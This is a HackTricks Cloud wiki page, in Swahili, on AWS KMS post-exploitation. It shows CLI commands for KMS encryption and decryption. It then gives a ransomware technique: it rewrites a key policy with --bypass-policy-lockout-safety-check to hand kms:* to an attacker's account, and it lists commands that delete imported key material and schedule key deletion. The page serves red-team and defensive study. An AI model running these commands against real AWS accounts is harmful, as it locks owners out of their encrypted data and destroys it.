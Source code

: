 # AWS - KMS Post Exploitation

{% hint style="success" %}
Jifunze na kufanya mazoezi ya Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na kufanya mazoezi ya Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Kwa maelezo zaidi angalia:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Encrypt/Decrypt information

* Kutumia **symmetric** key
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Kutumia **asymmetric** key:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Ikiwa unapokea hitilafu 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' wakati wa kujaribu kufanya kms decrypt jaribu kutumia **`--ciphertext-blob file://`** badala ya **`fileb://`**.

Matumizi ya **`file://`** yanakupa urahisi wa kutumia faili zilizoandikwa kwa usimbaji unaopendelea unapotumia CLI.
Katika matoleo ya 1.6.3 na juu ya CLI, unapata njia nyingine ya kupitisha yaliyomo ya faili kwa CLI, **`fileb://`**. Inafanya kazi sawa na **`file://`**, lakini badala ya kusoma yaliyomo ya faili kama maandishi, inasomwa kama binary.

Kwa kesi nyingi, **`file://`** itatosheleza matumizi yako ya kupitisha yaliyomo ya faili kama pembejeo. Hata hivyo, kuna baadhi ya kesi ambapo **`fileb://`** lazima itumike kupitisha yaliyomo ya faili kama binary badala ya maandishi.
Soma zaidi kutoka AWS hapa: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

Mshambuliaji mwenye ufikiaji wa kipekee juu ya KMS anaweza kubadilisha sera ya KMS ya funguo na **kumpa akaunti yake ufikiaji juu yao**, kuondoa ufikiaji uliotolewa kwa akaunti halali.

Kisha, watumiaji wa akaunti halali hawataweza kufikia taarifa yoyote ya huduma yoyote ambayo imefichwa na funguo hizo, ikitengeneza ransomware rahisi lakini yenye ufanisi juu ya akaunti.

{% hint style="warning" %}
Kumbuka kuwa **funguo zinazodhibitiwa na AWS hazijaathiriwa** na shambulio hili, ni **funguo zinazodhibitiwa na Mteja** pekee.

Pia kumbuka hitaji la kutumia param **`--bypass-policy-lockout-safety-check`** (ukosefu wa chaguo hili katika web console hufanya shambulio hili liwezekane tu kutoka CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Kumbuka kwamba ukibadilisha sera hiyo na kutoa ufikiaji kwa akaunti ya nje tu, na kisha kutoka akaunti hii ya nje ujaribu kuweka sera mpya ili **kutoa ufikiaji tena kwa akaunti ya awali, hutaweza**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

Kuna njia nyingine ya kufanya Global KMS Ransomware, ambayo ingehusisha hatua zifuatazo:

* Kuunda **ufunguo mpya na nyenzo za ufunguo** zilizoingizwa na mshambuliaji
* **Kusimba upya data ya zamani** iliyosimbwa na toleo la awali kwa kutumia toleo jipya.
* **Kufuta ufunguo wa KMS**
* Sasa ni mshambuliaji pekee, ambaye ana nyenzo za ufunguo wa awali, ndiye atakayeweza kusimbua data iliyosimbwa

### Kuangamiza funguo
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Kumbuka kuwa AWS sasa **inazuia vitendo vya awali kufanywa kutoka akaunti ya msalaba:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
